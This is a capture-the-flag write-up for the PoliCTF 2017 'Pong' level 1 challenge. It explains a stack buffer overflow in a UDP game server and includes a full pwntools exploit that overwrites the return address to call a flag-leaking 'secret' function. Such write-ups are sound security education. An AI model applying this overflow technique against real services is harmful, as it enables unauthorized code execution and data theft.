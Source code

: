 ```yaml
---
layout: post
title:  "PoliCTF 2017 Pong(lvl 1)"
date:   2017-07-09 21:10
categories: CTF
tags: [PoliCTF2017]
categories: [Pwn]
author: jbz
---
```


> So much pixels and fun!
> nc pong.chall.polictf.it 31337 or nc pong2.chall.polictf.it 31337

[Download](https://github.com/jbzteam/CTF/blob/master/PoliCTF2017/Pong/pong1.tgz?raw=true)


There was a stack bof vulnerability in function `gameUpdateData()`.

The user input delivered to the UDP server was copied to a stack variable without checking its size. This lead to a memory corruption. 

The given binary contains a function called `secret` which open the file `flag` sending its content back to the socket.

To get that content from the client side we first sent the payload requested in order to trigger the  function `setupListener`, then we sent the payload to exploit the memory corruption. 

In order to get the flag sent from the server, we need to send the triggering payload before the connection is closed...but hey wait that's is UDP, it's connectionless! 

Moreover, there was enought time to trigger the corruption since the first payload triggers a function which sends back to the client a lot of data before to exit so, we just need to send the first payload (to trigger `setupListener`) followed immediately by the second one (to trigger mem corr), without waiting for any reply in-between.

```
from pwn import *

secret = 0x4045d1

def start_game():
#	p = remote('localhost', 31337)
	p = remote('pong2.chall.polictf.it', 31337)
	p.sendline("Lv1")
	p.recvuntil("OK ")
	s = p.recvline()
	c_port = int(s.strip())
	return c_port

def play_pong(port):
	print "connecting to pong UDP server at %d" % port
#	p = remote('localhost', port, typ="udp")
	p = remote('pong2.chall.polictf.it', port, typ="udp")
	return p

def send_to_pong(p, pay, stop=None): 
	p.sendline(pay)
	if stop:
		print p.recv()

port = start_game()
p = play_pong(port)

pay = "-1|" + "2" * 21
pay += p64(secret)
send_to_pong(p, pay, False)

pay = "1" + "|" + "2" * 22 
pay += p64(secret)
send_to_pong(p, pay, True)
```



